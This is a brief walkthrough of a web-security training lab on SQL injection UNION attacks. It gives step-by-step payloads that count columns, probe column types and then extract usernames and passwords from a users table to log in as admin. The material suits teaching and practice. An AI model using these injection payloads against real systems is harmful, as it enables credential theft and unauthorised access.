

### SQL injection UNION attack, retrieving data from other tables : PRACTITIONER

---

> First get the number of columns:
```
' UNION SELECT NULL, NULL--
```
> They are 2, as 3 gets an error.

> Then check the types, we need strings to get usernames and passwords.
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
> Both work, hence both are strings.

> Next use this same payload but choose username and password fields from the users table.
```
' UNION SELECT username, password FROM users--
```



> Now we can login as admin and the lab is complete.

---
